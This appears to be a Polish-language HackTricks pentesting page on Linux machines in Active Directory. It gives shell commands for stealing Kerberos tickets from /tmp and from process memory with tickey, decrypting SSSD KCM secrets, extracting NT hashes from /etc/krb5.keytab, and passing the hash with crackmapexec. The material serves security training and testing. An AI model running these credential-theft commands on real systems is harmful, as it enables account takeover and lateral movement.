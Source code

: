 # Linux Active Directory

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

{% embed url="https://websec.nl/" %}

Maszyna linuxowa może również znajdować się w środowisku Active Directory.

Maszyna linuxowa w AD może **przechowywać różne bilety CCACHE w plikach. Te bilety mogą być używane i nadużywane jak każdy inny bilet kerberosowy**. Aby odczytać te bilety, musisz być właścicielem biletu lub **rootem** na maszynie.

## Enumeracja

### Enumeracja AD z linuxa

Jeśli masz dostęp do AD w linuxie (lub bash w Windows), możesz spróbować [https://github.com/lefayjey/linWinPwn](https://github.com/lefayjey/linWinPwn), aby enumerować AD.

Możesz również sprawdzić następującą stronę, aby dowiedzieć się o **innych sposobach enumeracji AD z linuxa**:

{% content-ref url="../../network-services-pentesting/pentesting-ldap.md" %}
[pentesting-ldap.md](../../network-services-pentesting/pentesting-ldap.md)
{% endcontent-ref %}

### FreeIPA

FreeIPA to otwartoźródłowa **alternatywa** dla Microsoft Windows **Active Directory**, głównie dla środowisk **Unix**. Łączy kompletny **katalog LDAP** z MIT **Kerberos** Key Distribution Center do zarządzania podobnego do Active Directory. Wykorzystując system **certyfikatów Dogtag** do zarządzania certyfikatami CA i RA, wspiera **uwierzytelnianie wieloskładnikowe**, w tym karty inteligentne. SSSD jest zintegrowany z procesami uwierzytelniania Unix. Dowiedz się więcej o tym w:

{% content-ref url="../freeipa-pentesting.md" %}
[freeipa-pentesting.md](../freeipa-pentesting.md)
{% endcontent-ref %}

## Zabawa z biletami

### Pass The Ticket

Na tej stronie znajdziesz różne miejsca, w których możesz **znaleźć bilety kerberosowe w hoście linuxowym**, na następnej stronie możesz dowiedzieć się, jak przekształcić te formaty biletów CCache na Kirbi (format, którego musisz użyć w Windows) oraz jak przeprowadzić atak PTT:

{% content-ref url="../../windows-hardening/active-directory-methodology/pass-the-ticket.md" %}
[pass-the-ticket.md](../../windows-hardening/active-directory-methodology/pass-the-ticket.md)
{% endcontent-ref %}

### Ponowne użycie biletu CCACHE z /tmp

Pliki CCACHE to binarne formaty do **przechowywania poświadczeń Kerberos**, które zazwyczaj są przechowywane z uprawnieniami 600 w `/tmp`. Pliki te można zidentyfikować po ich **formacie nazwy, `krb5cc_%{uid}`,** odpowiadającym UID użytkownika. Aby zweryfikować bilet uwierzytelniający, **zmienna środowiskowa `KRB5CCNAME`** powinna być ustawiona na ścieżkę do pożądanego pliku biletu, co umożliwia jego ponowne użycie.

Wypisz aktualny bilet używany do uwierzytelniania za pomocą `env | grep KRB5CCNAME`. Format jest przenośny, a bilet może być **ponownie użyty, ustawiając zmienną środowiskową** za pomocą `export KRB5CCNAME=/tmp/ticket.ccache`. Format nazwy biletu Kerberos to `krb5cc_%{uid}`, gdzie uid to UID użytkownika.
```bash
# Find tickets
ls /tmp/ | grep krb5cc
krb5cc_1000

# Prepare to use it
export KRB5CCNAME=/tmp/krb5cc_1000
```
### CCACHE ticket reuse from keyring

**Bilety Kerberos przechowywane w pamięci procesu mogą być wyodrębnione**, szczególnie gdy ochrona ptrace maszyny jest wyłączona (`/proc/sys/kernel/yama/ptrace_scope`). Przydatnym narzędziem do tego celu jest dostępne pod adresem [https://github.com/TarlogicSecurity/tickey](https://github.com/TarlogicSecurity/tickey), które ułatwia wyodrębnianie poprzez wstrzykiwanie do sesji i zrzucanie biletów do `/tmp`.

Aby skonfigurować i użyć tego narzędzia, należy postępować zgodnie z poniższymi krokami:
```bash
git clone https://github.com/TarlogicSecurity/tickey
cd tickey/tickey
make CONF=Release
/tmp/tickey -i
```
Ta procedura spróbuje wstrzyknąć do różnych sesji, wskazując na sukces poprzez przechowywanie wyodrębnionych biletów w `/tmp` z konwencją nazewnictwa `__krb_UID.ccache`.

### Ponowne użycie biletu CCACHE z SSSD KCM

SSSD utrzymuje kopię bazy danych pod ścieżką `/var/lib/sss/secrets/secrets.ldb`. Odpowiedni klucz jest przechowywany jako ukryty plik pod ścieżką `/var/lib/sss/secrets/.secrets.mkey`. Domyślnie klucz jest czytelny tylko, jeśli masz uprawnienia **root**.

Wywołanie \*\*`SSSDKCMExtractor` \*\* z parametrami --database i --key zanalizuje bazę danych i **odszyfruje sekrety**.
```bash
git clone https://github.com/fireeye/SSSDKCMExtractor
python3 SSSDKCMExtractor.py --database secrets.ldb --key secrets.mkey
```
**Blob pamięci podręcznej poświadczeń Kerberos może być przekształcony w użyteczny plik CCache Kerberos**, który można przekazać do Mimikatz/Rubeus.

### Ponowne użycie biletu CCACHE z keytab
```bash
git clone https://github.com/its-a-feature/KeytabParser
python KeytabParser.py /etc/krb5.keytab
klist -k /etc/krb5.keytab
```
### Wyciągnij konta z /etc/krb5.keytab

Klucze kont serwisowych, niezbędne dla usług działających z uprawnieniami roota, są bezpiecznie przechowywane w plikach **`/etc/krb5.keytab`**. Te klucze, podobnie jak hasła dla usług, wymagają ścisłej poufności.

Aby sprawdzić zawartość pliku keytab, można użyć **`klist`**. Narzędzie to jest zaprojektowane do wyświetlania szczegółów kluczy, w tym **NT Hash** do uwierzytelniania użytkowników, szczególnie gdy typ klucza jest identyfikowany jako 23.
```bash
klist.exe -t -K -e -k FILE:C:/Path/to/your/krb5.keytab
# Output includes service principal details and the NT Hash
```
Dla użytkowników Linuksa, **`KeyTabExtract`** oferuje funkcjonalność do ekstrakcji hasha RC4 HMAC, który można wykorzystać do ponownego użycia hasha NTLM.
```bash
python3 keytabextract.py krb5.keytab
# Expected output varies based on hash availability
```
Na macOS, **`bifrost`** służy jako narzędzie do analizy plików keytab.
```bash
./bifrost -action dump -source keytab -path /path/to/your/file
```
Wykorzystując wyodrębnione informacje o koncie i haszach, można nawiązać połączenia z serwerami za pomocą narzędzi takich jak **`crackmapexec`**.
```bash
crackmapexec 10.XXX.XXX.XXX -u 'ServiceAccount$' -H "HashPlaceholder" -d "YourDOMAIN"
```
## Odniesienia

* [https://www.tarlogic.com/blog/how-to-attack-kerberos/](https://www.tarlogic.com/blog/how-to-attack-kerberos/)
* [https://github.com/TarlogicSecurity/tickey](https://github.com/TarlogicSecurity/tickey)
* [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md#linux-active-directory](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md#linux-active-directory)

{% embed url="https://websec.nl/" %}

{% hint style="success" %}
Ucz się i ćwicz Hacking AWS:<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">\
Ucz się i ćwicz Hacking GCP: <img src="../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wsparcie HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegram**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Dziel się sztuczkami hackingowymi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów github.

</details>
{% endhint %}
